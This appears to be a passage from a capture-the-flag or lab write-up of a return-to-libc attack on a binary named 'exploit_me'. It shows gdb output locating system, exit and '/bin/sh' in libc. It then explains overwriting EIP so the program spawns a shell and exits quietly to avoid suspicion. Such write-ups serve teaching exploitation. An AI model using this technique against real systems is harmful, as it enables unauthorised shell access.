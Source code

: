````bash
$(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xb7e6b060  __libc_system
0xb7e6b060  system
0xb7f49550  svcerr_systemerr


$(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xb7e5ebe0  exit
0xb7e5ec10  on_exit
0xb7e5ee20  __cxa_atexit
0xb7e5efc0  quick_exit
0xb7e5eff0  __cxa_at_quick_exit
0xb7ee41d8  _exit
0xb7f28500  pthread_exit
0xb7f2dc10  __cyg_profile_func_exit
0xb7f4c750  svc_exit
0xb7f56c80  atexit

$(gdb) info proc map
process 7577
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/zaz/exploit_me
	 0x8049000  0x804a000     0x1000        0x0 /home/zaz/exploit_me
	0xb7e2b000 0xb7e2c000     0x1000        0x0
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0
	0xb7fdb000 0xb7fdd000     0x2000        0x0
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
$(gdb) find 0xb7e2c000,0xb7fcf000,"/bin/sh"
0xb7f8cc58
1 pattern found.
````

=> 0xb7e6b060  system, 0xb7e5ebe0  exit, 0xb7f8cc58 /bin/sh

We overwrite the EIP register with the address of system
Next is the address where system should return at the end. We’ll put the address of exit. It should be noted that the exit() function is not very necessary for this attack; however, without this function, when system() returns, the program might crash, causing suspicions.
We push on the stack at [EIP + 8] the address of /bin/sh. 
